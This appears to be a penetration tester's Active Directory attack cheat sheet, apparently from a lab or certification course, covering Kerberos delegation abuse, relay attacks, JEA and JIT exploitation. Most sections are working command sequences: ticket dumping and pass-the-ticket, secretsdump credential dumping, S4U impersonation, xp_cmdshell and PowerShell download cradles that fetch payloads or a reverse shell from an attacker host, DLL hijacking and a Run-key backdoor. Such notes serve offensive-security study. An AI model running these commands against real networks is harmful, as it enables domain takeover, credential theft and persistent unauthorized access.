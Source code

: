 # Attacking AD

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

<pre class="language-powershell"><code class="lang-powershell">iex (new-object net.web-client).downloadstring('http://192.168.45.198/PowerView.ps1')
<strong>Get-DomainComputer -Unconstrained
</strong># Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
</code></pre>

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1).png>)
        *   ```powershell
            # Dump as domain user
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            # Dump as built-in admin
            impacket-secretsdump administrator:2J8u{2e@192.168.187.121
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Importing the ccache file
        * ```bash
          mv DC01\$@CORP.COM_krbtgt@CORP.COM.ccache administrator.ccache
          export KRB5CCNAME=administrator.ccache
          ```
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

```
mv DC03\$@INFINITY.COM_krbtgt@INFINITY.COM.ccache administrator.ccache
export KRB5CCNAME=administrator.ccache
```



<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E /nowrap
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt

    # .\Rubeus.exe s4u /ticket:doIEpjCCBKKgA… /impersonateuser:administrator /msdsspn:cifs/file01.evil.com /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  * ```sql
    EXECUTE AS LOGIN = 'sa';
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {
          $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_
      } | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      ```


* Execute Commands as Administrator
  * ```powershell
    impacket-psexec administrator@backup01.corp.com -k -no-pass
    ```

</details>

<details>

<summary>Exploiting Just Enough Administration (JEA)</summary>

* L**imits administrative privileges** by allowing users to run only specific **approved** commands via PowerShell

- View PowerShell Command History
  *   ```powershell
      (Get-PSReadlineOption).HistorySavePath
      type C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
      ```


- Detect if JEA is Enabled on the Target Machine
  *   ```powershell
      Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
      ```


- **Check if commands are restricted:** ![](<../.gitbook/assets/image (4) (1).png>)
  *   <pre class="language-powershell"><code class="lang-powershell">[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
      # NoLanguageMode --> likely restricted by JEA.

      $ExecutionContext.SessionState.LanguageMode
      <strong>#If full or contrained:
      </strong>&#x26; {IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.211/runall.ps1')}
      </code></pre>


- Enumerate Available Commands in the JEA Session
  *   ```powershell
      Get-Command
      ```


  * If `Copy-Item`, `Move-Item`, or `New-Item` is available, you can **drop malicious payloads**:
    *   ```powershell
        # Exfiltrate sensitive files
        Copy-Item -Path C:\Windows\System32\drivers\etc\hosts -Destination C:\shares\mary\stolen_hosts.txt
        # DLL hijacking for privilege escalation
        Copy-Item C:\shares\payload.dll -Destination "C:\Program Files\VulnerableApp\malicious.dll"
        ```


  * If `Start-Process` is available, it can execute **arbitrary processes**:
    *   ```powershell
        Start-Process "cmd.exe" -ArgumentList "/c whoami"
        Start-Process "powershell.exe" -ArgumentList "-NoP -NonI -W Hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/revshell.ps1')"
        ```


  * If `New-Item` and `Set-ItemProperty` are available, registry values can be modified to establish **persistence**:
    * ```powershell
      New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Backdoor" -Value "C:\malware.exe"
      ```
- Proof-of-Concept: Copying dll to program folder for DLL Hijacking
  * ```powershell
    copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
    ```

</details>

<details>

<summary>Exploiting Just-In-Time Administration Theory</summary>

* Providing temporary, limited administrative access to resources
* Once the time is up, the privileges are revoked automatically
* Requires Privileged Access Management Feature (PAM) to be enabled

## Enumeration

*   ```powershell
    Import-Module .\Microsoft.ActiveDirectory.Management.dll
    Get-Command -Module Microsoft.ActiveDirectory.Management | Where-Object { $_.Name -like "Get-*" }
    ```

    <figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>


*   ```powershell
    Get-ADOptionalFeature -Filter *
    ```

    <figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
*   ```powershell
    Get-NetUser mary | select memberof
    Get-NetGroup j_approve | select member
    ```



## Enumerate GPOs available in the domain

*   ```powershell
    Get-NetGPO | select displayname
    Get-NetGPO l_web01
    ```

    <figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>


* Copy paste path to explorer
* View the group policies in [\\\corp.com\SysVol\corp.com\Policies\\{99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6}\Machine\Preferences\Groups](file://corp.com/SysVol/corp.com/Policies/%7B99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6%7D/Machine/Preferences/Groups)
  *

      <figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>Adding la_web to local admin group (RID: 544) on WEB01</p></figcaption></figure>


*   ```powershell
    klist purge
    #So that we can request the new kerberos ticket
    Enter-PSSession -ComputerName WEB01
    ```



</details>
